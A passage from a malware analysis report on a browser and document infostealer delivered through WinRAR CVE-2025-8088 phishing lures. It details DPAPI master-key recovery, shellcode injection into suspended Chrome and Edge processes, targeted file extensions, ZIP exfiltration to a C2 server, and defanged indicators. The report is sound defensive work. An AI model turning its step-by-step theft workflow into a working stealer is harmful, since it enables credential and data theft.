The credential theft process begins, which targets the browser's Local State configuration file.



Then the configuration file was copied into the malware's staging directory while simultaneously encrypting the copied file with the malware's embedded RC4 key.

This serves two purposes:
- Preserving a copy of the victim's configuration for exfiltration,
- Preventing the staged data from being stored in plaintext.

After obtaining the plaintext JSON, the malware extracts several configuration values using RC4-decrypted regular expressions.


After extraction, the malware:

- Copies the matched string,
- Base64-decodes it,
- Stores the decoded result inside the browser execution context.




The malware also extracts the ```profiles_order``` entry from the Local State file.

Unlike browser cookies, ```profiles_order``` is an internal Chrome preference stored as a JSON array:

```
"profiles_order":
[
    "Default",
    "Profile 1",
    "Profile 2"
]
```

The malware parses this array and converts it into an internal list of profile names.


After parsing Local State, execution continues in:
- The function verifies that the decoded master key begins with the expected Chromium prefix: DPAPI
(Chromium stores the encrypted master key as: DPAPI || EncryptedBlob)
- Removes the first five bytes before constructing a DATA_BLOB for the Windows DPAPI API
- Invokes: ```CryptUnprotectData```, which decrypts the master key using the current user's Windows credentials. This produces the plaintext AES master key used by Chromium to encrypt:
  - Saved passwords
  - Cookies
  - Payment information
  - Other browser secrets

- Instead of leaving the key in plaintext, the malware immediately encrypts it with its own RC4 key and stores it as: ```Key10.txt``` its browser working directory.


Rather than directly decrypting browser secrets, it launches a legitimate browser process, injects a custom shellcode into it, and allows the injected code to execute under the browser's security context to recover DPAPI-protected data that cannot be accessed directly.

Flow:
```
Attempt normal DPAPI recovery
        │
        ▼
Is browser Chrome or Edge?
        │
        ├── No
        │      │
        │      ▼
        │   Return
        │
        ▼
Create suspended browser process
        │
        ▼
Decrypt embedded shellcode
        │
        ▼
Allocate memory inside browser
        │
        ▼
Copy shellcode
        │
        ▼
Copy BrowserCtx
        │
        ▼
Copy profile list
        │
        ▼
Change protection to RWX
        │
        ▼
Create remote thread
        │
        ▼
Injected shellcode executes
        │
        ▼
Read returned data
        │
        ▼
Store exit status
        │
        ▼
Cleanup
```
1. Browser Selection
The malware first resolves the browser name.

It decrypts two embedded strings:

"Chrome"
"Edge"

And compares them against the current browser context.


2. Create Suspended Browser Process
The malware launches the browser executable using:


3. Decrypt Embedded Shellcode


4. Allocate Remote Memory
The malware computes the total allocation size: Shellcode + BrowserCtx + Profile List


5. Write Shellcode + execution context



8. Make Memory Executable + locate shellcode EntryPoint + create remote thread


9. Read Returned Data
After the injected shellcode completes, the malware reads back 88 bytes from the beginning of the shared allocation:


Same manual loader routine:


The injected shellcode use the same obfuscation method as its parent


After some deobfuscated the shellcode become




This shellcode is based on an [open source project](https://github.com/xaitax/Chrome-App-Bound-Encryption-Decryption/blob/63b719f2ab3dbf8573fd9228a9c028526e9eb1db/src/com/elevator.cpp#L12)






Since Edge and Opera browsers share Chromium's profile structure and encryption mechanisms, the malware does not implement a separate stealer. Instead, it performs minimal browser-specific handling before invoking the common database collection routine. 
The primary difference lies in how profile directories are identified: Opera uses a predefined profile directory, whereas Edge uses the profile list extracted from the Local State file, identical to Google Chrome.
Flow:
```
Determine browser type
        │
        ├──────────────┐
        │              │
      Opera        Edge/Chrome
        │              │
        ▼              ▼
Use predefined     Parse Local State
profile name       profiles_order
        │              │
        └──────┬───────┘
               ▼
Create profile staging directory
               │
               ▼
Copy Login Data
               │
               ▼
Copy Network\Cookies
               │
               ▼
Encrypt copied databases with RC4
               │
               ▼
Stage for exfiltration
```
Unlike Chrome and Edge, Opera stores user data under a single predefined profile directory instead of maintaining a configurable list of profile names. Consequently, the malware does not rely on the profiles_order array extracted from the Local State file.

When the browser is identified as Opera, the malware decrypts a hardcoded profile name and immediately invokes the generic collection routine:

This avoids the need for profile enumeration while allowing Opera to reuse the same database collection logic implemented for other Chromium-based browsers.

Microsoft Edge follows the standard Chromium profile model.
Earlier in the execution chain, the malware extracts the ```profiles_order``` entry from Edge's Local State file and builds an internal list of profile names. The collection routine simply iterates through this list:
```
Default
Profile 1
Profile 2
...
```




For every profile, the malware constructs two directory paths.
The source directory corresponds to the browser profile:
```
<Browser User Data>\<ProfileName>
```
While the destination directory is created inside the malware's working folder:
```
<Malware Working Folder>\<ProfileName>, which is C:\User\[Username]\bZsaxmZvial0zhH4n\<ProfileName>
```
#### 3.3.6.1.4. Collected data

The first artifact collected from each profile is the Chromium ```Login Data``` SQLite database.


After staging the login database, the malware attempts to collect the browser's cookie database.

For Chromium-based browsers, cookies are stored under the Network subdirectory. The malware therefore appends: ```/Network``` to both source and destination paths and verifies that the directory exists.
If present, it further appends: ```/Cookies```
Resulting in:
```
<Browser User Data>\<Profile>\Network\Cookies
```

The cookie database is then copied using the same RC4-encrypted staging routine employed for the login database. If the Network directory is absent, the malware records the failure but continues processing without terminating the collection routine.



Consequently, the malware never stores plaintext browser artifacts in its working directory. This behavior mirrors the Chrome workflow, where the ```Local State``` file, recovered master key (```Key10.txt```), ```Login Data```, and ```Cookies``` databases are all protected using the same RC4 key prior to exfiltration.


| Browser            | Files Collected                                             | Purpose                                        |
| ------------------ | ----------------------------------------------------------- | ---------------------------------------------- |
| **Google Chrome**  | `Local State`, `Key10.txt (DPAPI Master key)`, `Login Data`, `Network\Cookies` | Recover AES master key, passwords, and cookies |
| **Microsoft Edge** | `Local State`, `Key10.txt (DPAPI Master key)`, `Login Data`, `Network\Cookies` | Recover AES master key, passwords, and cookies |
| **Opera**          | `Local State`, `Key10.txt (DPAPI Master key)`, `Login Data`, `Network\Cookies` | Recover AES master key, passwords, and cookies |
| **Firefox**        | `logins.json`, `key3.db`, `key4.db`, `cookies.sqlite`       | Recover saved credentials and cookies          |


### 3.3.6.2. Local files slealer


The local file stealer is implemented as a standalone module whose purpose is to locate user documents on all accessible drives, copy them into a staging directory while encrypting them, periodically compress the staged data, and transmit the archive to the C2 server.

Unlike the browser credential stealer, this module focuses on collecting user-created documents rather than application databases.


```
fn_local_files_discovery()
        │
        ▼
Enumerate drives A:\ - Z:\
        │
        ▼
For each existing drive
        │
        ├── C: drive
        │      ├── Desktop
        │      ├── Documents
        │      └── Downloads
        │
        └── Other drives
               └── Root directory
        │
        ▼
fn_recursive_directory_traversal()
        │
        ▼
Recursively enumerate directories
        │
        ▼
For every file
        │
        ├── Skip if >20 MB
        ├── Skip if old
        ├── Skip if extension not targeted
        ▼
Encrypt + Copy into staging folder
        │
        ▼
Accumulate transferred size
        │
        ▼
Every 4 MB
        │
        ▼
Zip staging folder
        │
        ▼
Upload archive to C2
        │
        ▼
Clean staging directory
```



A file is stolen only if all conditions are satisfied.
- File Size < 20MB
- Creation time less than executed time 30 days
- File must be newer than the malware's previous execution.
- Targeted extensions:
    - **Documents**: txt, doc, docx, docm, pdf, rtf, odt, md, log, eml
    - **Microsoft Office**: xls, xlsx, xlsm, xlt, xltx, xltm, csv, ppt, pptx, pptm, pps, ppsx, pot, dot, dotx, dotm
    - **Archives**: zip, rar, 7z, cab, tar, gzip
    - **Credentials / Security**: kdbx (KeePass), ovpn (OpenVPN), conf, jks (Java KeyStore)
    - **Images**: png, bmp, jpeg, jpg




### 3.3.6.3. Compression of stealed data


Exfiltration using ZIP archive containing the files previously collected by the stealer. The malware initializes a ZIP writer, recursively traverses the target directory, adds every discovered file into the archive while preserving the original directory hierarchy, finalizes the ZIP central directory, and prepares the archive for transmission to the command-and-control (C2) server.

The implementation closely resembles the ZIP writer API provided by the open-source miniz library.

```
Verify staging directory
        │
        ▼
Create ZIP output file
        │
        ▼
Initialize ZIP writer
        │
        ▼
Recursively enumerate files
        │
        ▼
For every file
    Preserve relative path
    Compress
    Add to ZIP
        │
        ▼
Finalize ZIP archive
        │
        ▼
Prepare archive for C2 transfer
```



# 4. IOC

Below are the summarized Indicators of Compromise (IOCs) identified throughout the infection and execution lifecycle.

### 4.1. Exploited Vulnerability
| CVE Identifier | Vulnerability Type | Target Software |
| :--- | :--- | :--- |
| [CVE-2025-8088](https://nvd.nist.gov/vuln/detail/CVE-2025-8088) | NTFS Stream Directory Traversal | WinRAR |

### 4.2. Phishing and Initial Access Indicators
| Indicator | Type | Description / Role |
| :--- | :--- | :--- |
| `holosivsk-rtck@ukr[.]net` | Email Address | Attacker phishing sender impersonating District TCC |
| `chernigivdonor@ukr[.]net` | Email Address | Victim recipient address |
| `25062026` | Plaintext String | Decryption password for the protected malicious RAR archive |
| `Відомості з реєстру військовозобов'язаних про працівників 20260625-3994491-2.pdf` | Filename | Decoy PDF document name used inside the archive |

### 4.3. Host and File Indicators
| Indicator / Path | Type | Description |
| :--- | :--- | :--- |
| `Відомості з реєстру військовозобов'язаних про працівників 20260625-3994491-2.pdf:.._.._.._.._.._.._.._.._.._.._.._.._ProgramData_I54d` | NTFS ADS Path | Stream containing the encrypted loader payload staged to traverse and drop in `C:\ProgramData\I54d` |
| `Відомості з реєстру військовозобов'язаних про працівників 20260625-3994491-2.pdf:.._.._.._.._.._.._.._.._.._.._.._.._ProgramData_X3Hk` | NTFS ADS Path | Stream containing the loader PowerShell script staged to traverse and drop in `C:\ProgramData\X3Hk` |
| `Відомості з реєстру військовозобов'язаних про працівників 20260625-3994491-2.pdf:.._.._.._.._.._Roaming_Microsoft_Windows_Start Menu_Programs_Startup_dXd9PBI7I7RL9.lnk` | NTFS ADS Path | Stream containing the persistence shortcut staged to traverse and drop in the Startup directory |
| `C:\ProgramData\I54d` | Dropped File | Staged encrypted loader payload (decrypted in memory to run shellcode) |
| `C:\ProgramData\X3Hk` | Dropped File | Staged obfuscated PowerShell execution script |
| `C:\Users\[Username]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\dXd9PBI7I7RL9.lnk` | Dropped File | Shortcut file used to execute `X3Hk` on user login for persistence |
| `C:\User\[Username]\bZsaxmZvial0zhH4n` | Directory Path | Root directory for staging exfiltrated browser and system data |
| `C:\User\[Username]\bZsaxmZvial0zhH4n\\[Username]` | Directory Path | Directory for staging logs and error files |
| `C:\User\[Username]\bZsaxmZvial0zhH4n\\[Username]\jMT7f1YMTwe` | Dropped File | Error log file tracking loader issues |
| `C:\User\[Username]\tKyvEZBrnNtrVhA.zip` | Dropped File | ZIP archive containing the exfiltrated user data |
| `C:\Users\[Username]\AppData\Local\Temp\B1WTZSa_qAz4yTQGVg6i` | Dropped File | Batch script compiled for self-removal (process termination and artifact deletion) |
| `C:\Users\[Username]\AppData\Local\Temp\logs.txt` | Dropped File | Log file recording stealer actions |
| `Key10.txt` | Dropped File | RC4-encrypted DPAPI Master Key stored temporarily in browser staging directory before exfiltration |

### 4.4. Network Indicators
| Indicator | Type | Description |
| :--- | :--- | :--- |
| `136[.]0[.]141[.]237` | IPv4 Address | Attacker Command and Control (C2) Server Host |
| `8942` | TCP Port | Port used for HTTPS C2 communication |
| `https[:]//136[.]0[.]141[.]237:8942/G8mGR7vXmD/` | URL | Primary HTTPS C2 endpoint for exfiltrating ZIP archives |
| `https[:]//136[.]0[.]141[.]237:8942/seqOhyMc/` | URL | Fallback HTTPS C2 endpoint used for error telemetry transmission |
| `http[:]//1[.]1[.]1[.]1` | URL | Host used to verify outbound internet connectivity |

# 5. MITRE ATT&CK Technique Mapping

Below is the mapping of tactics and techniques observed in the malware's lifecycle.

| Tactic | Technique ID | Technique Name | Details / Context in Malware |
| :--- | :--- | :--- | :--- |
| **Initial Access** | T1566.001 | Spearphishing Attachment | Password-protected archive delivered via email body containing decryption key. |
| **Execution** | T1203 | Exploitation for Client Execution | Abuse of WinRAR CVE-2025-8088 path traversal during archive extraction. |
| | T1059.001 | PowerShell | Obfuscated PowerShell loader script (`X3Hk`) to decrypt and execute shellcode. |
| | T1106 | Native API | Resolves and invokes native NT APIs directly (`NtAllocateVirtualMemory`, `NtCreateThreadEx`, etc.). |
| **Persistence** | T1547.001 | Registry Run Keys / Startup Folder | Creation of `dXd9PBI7I7RL9.lnk` in the user's Startup folder. |
| **Defense Evasion** | T1564.004 | NTFS File Attributes | Abusing NTFS Alternate Data Streams (ADS) for path traversal and file smuggling. |
| | T1027 | Obfuscated Files or Information | Heavily obfuscated PowerShell loader, string encryption via RC4, and control-flow obfuscation in shellcode. |
| | T1027.007 | Dynamic API Resolution | Use of FNV-1a API hashing to resolve exports dynamically and hide dependencies. |
| | T1055 | Process Injection | Self-injection via `NtCreateThreadEx` and remote shellcode injection into suspended browser processes. |
| | T1562.001 | Disable or Modify Tools | Parsing in-memory `ntdll.dll` to retrieve syscall numbers directly (Hell's Gate style), bypassing EDR user-mode hooks. |
| | T1070.004 | File Deletion | Execution of a batch script (`B1WTZSa_qAz4yTQGVg6i`) to delete files/logs and self-remove. |
| **Credential Access** | T1555.003 | Credentials from Web Browsers | Harvesting of credentials, cookies, and profiles from Chrome, Edge, Opera, and Firefox. |
| | T1539 | Steal Web Session Cookie | Extraction and RC4-encryption of session databases (`Cookies`, `cookies.sqlite`). |
| **Discovery** | T1083 | File and Directory Discovery | Enumeration of directories (Desktop, Documents, Downloads) and searching for files with targeted extensions. |
| | T1082 | System Information Discovery | Drives traversal (A:\ to Z:\) and checking for system path structures. |
| | T1016 | System Network Configuration Discovery | Checking for internet connectivity using HTTP requests to `1.1.1.1`. |
| **Collection** | T1005 | Data from Local System | Staging and copying of user files matching targeted document and credential extensions. |
| | T1560.001 | Archive via Utility | Compression of collected credentials and files into a ZIP archive prior to exfiltration. |
| **Command & Control**| T1071.001 | Web Protocols | C2 communication via HTTPS POST requests to dynamic endpoints (`/G8mGR7vXmD/`, `/seqOhyMc/`). |
| | T1573.001 | Symmetric Cryptography | RC4 encryption applied to the payload data and exfiltration network packets. |
| **Exfiltration** | T1041 | Exfiltration Over C2 Channel | Transmission of the compressed ZIP archive containing stolen data back to the C2 server. |